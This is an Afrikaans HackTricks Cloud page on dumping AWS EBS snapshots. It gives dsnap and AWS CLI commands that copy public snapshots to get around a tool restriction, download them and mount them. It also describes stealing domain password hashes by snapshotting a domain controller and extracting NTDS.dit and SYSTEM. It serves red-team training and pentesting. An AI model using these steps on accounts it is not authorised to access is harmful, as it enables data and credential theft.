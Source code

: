 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Kontroleer 'n snapshot plaaslik
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Let wel** dat `dsnap` jou nie sal toelaat om openbare snappings af te laai nie. Om dit te omseil, kan jy 'n kopie van die snapshot in jou persoonlike rekening maak, en dit aflaai:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Vir meer inligting oor hierdie tegniek, kyk na die oorspronklike navorsing in [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Jy kan dit met Pacu doen deur die module [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots) te gebruik.

## Kontroleer 'n snapshot in AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Monteer dit in 'n EC2 VM onder jou beheer** (dit moet in dieselfde streek wees as die kopie van die rugsteun):

Stap 1: 'n Nuwe volume van jou verkiesde grootte en tipe moet geskep word deur na EC2 –> Volumes te gaan.

Om hierdie aksie uit te voer, volg hierdie opdragte:

* Skep 'n EBS-volume om aan die EC2-instantie te koppel.
* Verseker dat die EBS-volume en die instantie in dieselfde sone is.

Stap 2: Die "koppel volume" opsie moet gekies word deur regs te klik op die geskepte volume.

Stap 3: Die instantie uit die instantie teksvak moet gekies word.

Om hierdie aksie uit te voer, gebruik die volgende opdrag:

* Koppel die EBS-volume.

Stap 4: Teken in op die EC2-instantie en lys die beskikbare skywe met die opdrag `lsblk`.

Stap 5: Kontroleer of die volume enige data het met die opdrag `sudo file -s /dev/xvdf`.

As die uitvoer van die bogenoemde opdrag "/dev/xvdf: data" toon, beteken dit dat die volume leeg is.

Stap 6: Formateer die volume na die ext4 lêerstelsel met die opdrag `sudo mkfs -t ext4 /dev/xvdf`. Alternatiewelik kan jy ook die xfs-formaat gebruik met die opdrag `sudo mkfs -t xfs /dev/xvdf`. Neem asseblief kennis dat jy of ext4 of xfs moet gebruik.

Stap 7: Skep 'n gids van jou keuse om die nuwe ext4-volume te monteer. Byvoorbeeld, jy kan die naam "newvolume" gebruik.

Om hierdie aksie uit te voer, gebruik die opdrag `sudo mkdir /newvolume`.

Stap 8: Monteer die volume na die "newvolume" gids met die opdrag `sudo mount /dev/xvdf /newvolume/`.

Stap 9: Verander gids na die "newvolume" gids en kontroleer die skyfspasie om die volume-montage te valideer.

Om hierdie aksie uit te voer, gebruik die volgende opdragte:

* Verander gids na `/newvolume`.
* Kontroleer die skyfspasie met die opdrag `df -h .`. Die uitvoer van hierdie opdrag moet die vrye spasie in die "newvolume" gids toon.

Jy kan dit met Pacu doen deur die module `ebs__explore_snapshots` te gebruik.

## Kontroleer 'n snapshot in AWS (met cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Skadu Kopie

Enige AWS-gebruiker wat die **`EC2:CreateSnapshot`** toestemming het, kan die hashes van alle domein gebruikers steel deur 'n **snapshot van die Domein Beheerder** te skep, dit aan 'n instansie wat hulle beheer te koppel en die **NTDS.dit en SYSTEM** register hives lêer te **eksporteer** vir gebruik met Impacket se secretsdump projek.

Jy kan hierdie hulpmiddel gebruik om die aanval te outomatiseer: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) of jy kan een van die vorige tegnieke gebruik nadat jy 'n snapshot geskep het.

## Verwysings

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
